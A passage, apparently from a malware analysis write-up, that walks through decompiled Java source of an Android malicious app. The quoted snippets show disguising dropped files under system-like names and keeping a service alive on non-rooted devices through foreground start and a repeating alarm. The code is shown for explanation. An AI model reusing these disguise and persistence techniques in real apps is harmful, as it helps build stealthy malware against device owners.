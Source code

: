 The names are randomly chosen among this set of names, making think about system files:

> ```java
>private static String[] names = {
>	"update.dat",
>	"settings.bin",
>	"update.bin",
>	"settings.dat",
>	"kernel.bin",
>	"core.bin",
>	"core.sys",
>	"hot_fix.dat",
>	"android.bin",
>	"sys.bin",
>	"inet.dat",
>	"wifi.bin",
>	"fix.bin",
>	"sys_driver.sys",
>	"lock.dat" };
> ```

### Non-rooted device

If the device is not rooted, it's more complicated. First, a service is launched:

> ```java
>private boolean InstallAsNonRoot(){
>	if (!IsMyServiceRunning(SystemService.class)) {
>		startService(new Intent(this, SystemService.class));
>	}
>	PendingIntent pendingIntent = PendingIntent.getBroadcast(this, 0, new Intent("INTENT_CPS_SERVICE_RESTART"), 0);
>	AlarmManager alarmManager = (AlarmManager)getSystemService(ALARM_SERVICE);
>	alarmManager.cancel(pendingIntent);
>	alarmManager.setRepeating(AlarmManager.RTC_WAKEUP, System.currentTimeMillis(), 60000L, pendingIntent);
>	return true;
>}
> ```

In the `onStartCommand` routine of this service, some interesting tasks are performed:

> ```java
>public int onStartCommand(Intent paramIntent, int flags, int startId){
>	startForeground(1, new Notification());
>	getApplicationContext().startService(new Intent(getApplicationContext().getApplicationContext(), StartService.class));
>	Work();
>	StartInstallHandrler();
>	SharedPreferences preferences = Utilities.GetPreferences(getApplicationContext());
>	SharedPreferences.Editor editor = Utilities.GetPreferncesEditor(getApplicationContext());
>	if (!preferences.contains("SHARED_PREF_KEY_KNOCKED")) {
>		editor.putInt("SHARED_PREF_KEY_KNOCKED", 100);
>		editor.commit();
>		Knock();
>	}
>	registerReceiver(new BroadcastReceiver(){
>		public void onReceive(Context paramAnonymousContext, Intent paramAnonymousIntent){
>			Log.d("TRACKING", "123");
>			SystemService.this.ref = paramAnonymousIntent.getStringExtra("r");
>		}
>	}, new IntentFilter("RRR_AAA_FFF"));
>	return START_STICKY;
>}
> ```
